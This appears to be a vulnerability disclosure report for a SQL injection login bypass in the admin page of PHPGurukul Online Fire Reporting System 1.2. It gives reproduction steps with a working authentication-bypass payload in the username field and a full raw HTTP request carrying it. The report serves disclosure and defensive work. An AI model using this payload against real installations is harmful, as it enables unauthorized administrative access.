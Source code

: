 # Description

 A SQL Injection vulnerability exists in the `ofrs/admin/index.php`
  script of PHPGurukul Online Fire Reporting System 1.2. The
  vulnerability allows attackers to bypass authentication and gain
  unauthorized access by injecting SQL commands into the username input
  field during the login process. 

 # PoC Report

  ## Environment Setup

  - Vendor Homepage: https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/
  - Software Link: https://phpgurukul.com/projects/Online-Fire-Reporting-System-using-PHP.zip
  - Version: V 1.2
  - Tested on: Windows 11 + XAMPP 8.0.30

  ## Exploit Description

  SQL Injection Vulnerability in ofrs/admin/index.php :
  The SQL injection vulnerability in the ofrs/admin/index.php script arises from insecure handling of user input during the login process.

  ## Steps to Reproduce

  1. Open the admin panel page by following URL : http://localhost/ofrs/admin/index.php
  2. Enter the following payload from username-box : `admin'or'1--`
  3. Press Login button or press Enter.

  ## Proof Of Concept
 ```
  POST /ofrs/admin/index.php HTTP/1.1
  Host: localhost
  Content-Length: 46
  Cache-Control: max-age=0
  sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
  sec-ch-ua-mobile: ?0
  sec-ch-ua-platform: "Windows"
  Upgrade-Insecure-Requests: 1
  Origin: http://localhost
  Content-Type: application/x-www-form-urlencoded
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
  Sec-Fetch-Site: same-origin
  Sec-Fetch-Mode: navigate
  Sec-Fetch-User: ?1
  Sec-Fetch-Dest: document
  Referer: http://localhost/ofrs/admin/index.php
  Accept-Encoding: gzip, deflate, br
  Accept-Language: en-US,en;q=0.9
  Cookie: PHPSESSID=fmnj70mh1qo2ssv80mlsv50o29
  Connection: close
 
  username=admin%27or%27--&inputpwd=&login=login
 ```


 ## Vulnerability Type
  SQL Injection


 ## Vendor of Product
  online_fire_reporting_system_project

 

  ## Affected Product Code Base
  online_fire_reporting_system - v1.2

  ## Affected Component
  ofrs/admin/index.php script
